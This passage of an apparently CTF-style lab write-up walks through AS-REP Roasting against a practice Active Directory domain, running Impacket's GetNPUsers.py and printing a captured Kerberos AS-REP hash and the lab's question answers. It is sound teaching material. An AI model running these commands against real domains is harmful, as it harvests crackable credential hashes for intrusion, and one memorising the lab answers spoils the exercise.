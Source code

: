 The answer is `svc-admin`

#### What is the other notable account is discovered? (These should jump out at you)

`backup`

___

## Exploitation (Abusing Kerberos)

> I highly recommand to watch this [VbScrub - Kerberos](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Z0bWmjwgUSLGTzm1k_kVZo) YouTube playlist before continuing.

> And for french readers, this article from hackndo's blog: [AS-REP Roasting](https://beta.hackndo.com/kerberos-asrep-roasting/)

**AS-REP Roasting** occurs when a user account has the privilege _"Does not require Pre-Authentication"_ set. 

> This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

To take advantage of this, we'll use `GetNPUsers.py` (from **Impacket**) that will allow us to query AS-REP Roastable accounts from the Key Distribution Center. 

> **Note**:The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

```bash
$ locate GetNPUsers.py
/usr/local/bin/GetNPUsers.py
/usr/local/bin/GetNPUsers.pyc
/usr/share/doc/python3-impacket/examples/GetNPUsers.py
$ python3 /usr/local/bin/GetNPUsers.py spookysec.local/svc-admin -request -dc-ip $TARGET -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:b4c31112ac39aae6cc44a1ee38b898d8$cbdf8ee2166813e2ba6fe8e385f1469d3dbeed4a676a9068c528ab383cf9ae32bffe15ef9b35758c7a2a00c800752004aba07284913712bb68eb4e8f78f41a050bc87f8e3d8599817efcac36b410e56b5927564929f7e5c61b1179db7dd4e6a97e8de381244e145bc0562d31b261f9bbf945f41b89c9a9b0875e35bc35456518acac08a79e03948fd9906eb72f3fbe2a88399f4c1a54f7f2448d79e20979048ff3c4053527c582677c7403a02615a92d8e204c756645849112f8de087e1791909dcf5945a93fffadc60fe94a54f834d4794dd5fce7d36fceb2ac2d591a222b360b0ddcd085aaa7f753f5e868ffa01f3cc4a8
$ python3 /usr/local/bin/GetNPUsers.py spookysec.local/backup -request -dc-ip $TARGET -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?
